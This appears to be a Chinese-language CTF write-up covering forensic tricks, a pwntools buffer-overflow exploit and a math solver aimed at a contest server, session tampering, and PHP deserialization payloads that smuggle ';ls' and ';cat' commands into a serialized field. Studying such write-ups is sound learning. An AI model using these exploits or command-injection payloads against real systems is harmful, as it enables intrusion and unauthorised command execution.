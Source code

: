 # MyFirstCTF

隨意紀錄一下比賽學到的知識與技巧，只紀錄印象較深刻的題目

## forensic

原圖放在forensic目錄

### 0x01

有一張用binwalk看一下 發現圖片中有另外一張圖片

> dd if=`input_file` of=`output_file` skip=`offset_size` bs=1

即可拿到圖片

### 0x02

用mac看來看去看不出端倪 結果用windoes 右鍵內容 flag藏在註解裡面

### 0x03

pdf裡面藏白色文字 全選起來用editor解答

## Pwn

### 0x01 (BOF)

有一點久沒寫exploits生疏了 這題順便紀錄一下

先用gdb info func

看到一個可疑函式 位置在`0x004006b6`

利用BOF讓ret跳轉到0x004006b6


![bof](https://i.imgur.com/vLsNCR9.png)

```python
from pwn import *

r = remote('140.110.112.29',2114)

print(r.recvline())

playload = "A"*56 + p64(0x004006b6)

r.send(playload)

r.interactive()

```


### 0x02 (math)

要在60秒內解完100題數學題 簡單的考你會不會寫程式跟使用pwntools而已

```python

from pwn import *
r = remote('140.110.112.29',5119)
r.recvline() #Can you help us?
r.recvline()


print(r.recvline())

for i in range(100):
	print(r.recvline())

	s = r.recvline()

	one = s.split('?')
	print(one)
	two = one[1].split('=')
	print(two)

	if(int(one[0]) + int(two[0]) == int(two[1])):
		print('+')
		r.sendline('+')
	elif(int(one[0]) - int(two[0]) == int(two[1])):
		print('-')
		r.sendline('-')
	elif(int(one[0]) * int(two[0]) == int(two[1])):
		print('*')
		r.sendline('*')

print(r.recvline())

```

## Web

### 0x01 (session)

用brup抓包

觀察提示的使用者 clara 的封包

=PZge c JryZ l TvNv a Fbgs r eBYt a

只是使用者名稱混雜一些字元

於是把clara的部分admin即可

改完後 `=PZgeaJryZdTvNvmFbgsieBYtn`

requestt出去就拿到flag了

### 0x02 (serialize)

將`__wakeup`中的this改成想要執行的指令(wakup函式在反序列化時一定會執行)

```php
<?php

class MyFirstCTF {
    protected $test = "CTF";
    function __wakeup()
    {
        // print "Wake up yo!<br>";
        // system("echo ".$this->test);
    }
}
$obj = new MyFirstCTF();
$obj->test=";ls";
$ser = serialize($obj);

printf($ser);


// $input = $_GET['str'];
// $kb = unserialize($input);
?>
```
print出來的字串是`O:10:"MyFirstCTF":1:{s:4:"test";s:3:";ls";}`

但是丟出去之後沒反應

猜測應該是protected的關係

[參考這篇文章](https://www.cnblogs.com/Mrsm1th/p/6835592.html)

所以要加 `\00*\00` 並且加上3(長度) 變成 `O:10:"MyFirstCTF":1:{s:7:"%00*%00test";s:3:";ls";}`

噴出 `Th1s_1S_f1ag__________________y0 index.html index.php`

再丟一波 `O:10:"MyFirstCTF":1:{s:7:"%00*%00test";s:37:";cat Th1s_1S_f1ag__________________y0";}`

解答

:::
這段很重要 不同類型序列化的值不一樣 但是看起來沒差 以protected 因為是null byte 所以要自己加 '\00*\00' 長度多3

private的参数被反序列化后变成 \00test\00test1 
public的参数变成 test2   p
rotected的参数变成 \00*\00test3 
:::


### 0x03 (math)
### 0x04 (math)
